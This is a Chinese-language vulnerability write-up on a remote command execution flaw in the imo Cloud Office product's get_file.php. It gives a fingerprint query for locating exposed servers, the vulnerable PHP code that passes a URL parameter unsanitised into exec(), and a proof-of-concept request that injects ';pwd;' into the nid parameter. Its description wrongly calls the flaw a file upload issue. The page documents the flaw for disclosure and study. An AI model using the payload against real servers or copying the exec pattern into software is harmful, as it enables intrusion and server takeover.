

# imo 云办公室 get_file.php 远程命令执行漏洞

## 漏洞描述

imo 云办公室 /file/NDisk/get_file.php 过滤不严格导致允许无限制地上传文件，攻击者可以通过该漏洞直接获取网站权限。

## 漏洞影响

<a-checkbox checked>imo 云办公室</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="iMO-云办公室"</a-checkbox></br>

## 漏洞复现

登录页面


漏洞文件 get_file.php

```javascript
<?php
// 放置在 mfs 服务器上用于获取文件列表，配合 nd_verify_large_file.php 使用
if(empty($_GET['cid']) || empty($_GET['nid']))
	exit;
$cid = $_GET['cid'];
$nid = $_GET['nid'];
$mainDir = dirname(__FILE__) . '/../upload/NDiskData/normal/' . $cid . '/';
exec("ls {$mainDir}*_{$nid}_*", $r);
$ret = array();
foreach($r as $v)
	$ret[md5_file($v)] = str_replace(dirname(__FILE__) . "/../upload/NDiskData/normal/{$cid}/", '', $v);
echo json_encode($ret);
```

验证POC

```javascript
/file/NDisk/get_file.php?cid=1&nid=;pwd;
```

